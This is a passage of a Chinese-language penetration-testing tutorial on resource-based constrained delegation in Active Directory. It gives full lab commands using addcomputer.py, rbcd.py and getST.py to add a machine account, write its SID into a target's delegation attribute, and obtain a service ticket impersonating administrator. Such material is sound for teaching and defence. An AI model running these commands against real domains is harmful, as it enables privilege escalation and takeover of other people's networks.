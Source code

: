 此时通过该域用户创建一个机器账户加入域，就能将机器账户的 SID 写入目标机器的属性中。从而让机器账户可以在目标机器上通过委派模拟为任意用户的权限。

#### 常用命令

使用 test 用户，向`WIN-7$`的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性写入`test_computer$`的 SID

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

#### 常用选项

```plain
-action [{read,write,remove,flush}] 选择要对特殊属性进行的操作，可选读取、写入、删除、清空
-use-ldaps 使用 LDAPS 协议替换 LDAP
```

#### 利用实例

因为这个脚本利用比较复杂，所以增加了利用实例

比如，此时我在域中拥有一个普通用户 test:1qaz@WSX，通过 ACL 发现 test 对 WIN-7 具有`msDS-AllowedToActOnBehalfOfOtherIdentity`的写权限。

所以我先通过 test 添加一个 computer，test\_computer$:1qaz@WSX，命令如下：

```plain
py -3 addcomputer.py test.com/test:1qaz@WSX -computer-name test_computer$ -computer-pass 1qaz@WSX
```

[![](assets/1702372846-0e642ad4a35690686a61696cf333de68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123552-7a7de570-6bb1-1.png)

然后通过 test 用户和 rbcd.py 脚本给 WIN-7 设置属性。将 WIN-7$的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性指向 test\_computer$

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

[![](assets/1702372846-adc0a5773454d97b34dcaddb65b36080.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123559-7e55e22e-6bb1-1.png)

设置好属性后，使用 getST.py 获取到 administrator 的`cifs/WIN-7`的服务票据（ST）

```plain
py -3 .\getST.py -spn 'cifs/WIN-7' -impersonate administrator -dc-ip 192.168.40.140 'test/test_computer$:1qaz@WSX'
```
